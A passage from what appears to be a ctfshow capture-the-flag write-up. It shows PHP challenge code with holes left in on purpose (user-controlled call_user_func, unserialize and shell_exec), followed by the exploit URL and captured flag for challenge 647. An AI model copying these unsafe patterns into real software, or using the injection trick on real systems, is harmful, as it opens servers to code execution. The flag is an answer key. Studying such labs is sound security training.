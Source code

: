 ```
		echo 'number is right?';
	}
}

function evilFunction($m,$k){
	$key = 'ffffffff';
	$content = call_user_func($m);
	if(stripos($content, $key)!==FALSE && $k==shell_exec('cat /FLAG/FLAG649')){
		echo shell_exec('cat /FLAG/FLAG650');
	}else{
		echo 'you are not ffffffff?';
	}
}

function evilArray($m,$k){
	$arrays=unserialize($m);
	if($arrays!==false){
		if(array_key_exists('username', $arrays) && in_array('ctfshow', get_object_vars($arrays)) &&  $k==shell_exec('cat /FLAG/FLAG650')){
			echo shell_exec('cat /FLAG/FLAG651');
		}else{
			echo 'array?';
		}
	}
}

function netTest($cmd){
	$ret = array(
		'code'=>0,
		'message'=>'命令执行失败'
	);

	if(preg_match('/^[A-Za-z]+$/', $cmd)){
		$res = shell_exec($cmd);
		stripos(PHP_OS,'WIN')!==FALSE?$ret['message']=iconv("GBK", "UTF-8", $res):$ret['message']=$res;
	}
	
	return json_encode($ret);
}
```

# 647

![image-20220324160220497](https://img-blog.csdnimg.cn/img_convert/2becf5e3687132a64ca8e033c0483968.png)

返回值是个数组就行了 **/users.php?action=evilString&m=getallheaders**

ctfshow{e6ad8304cdb562971999b476d8922219}

# 648
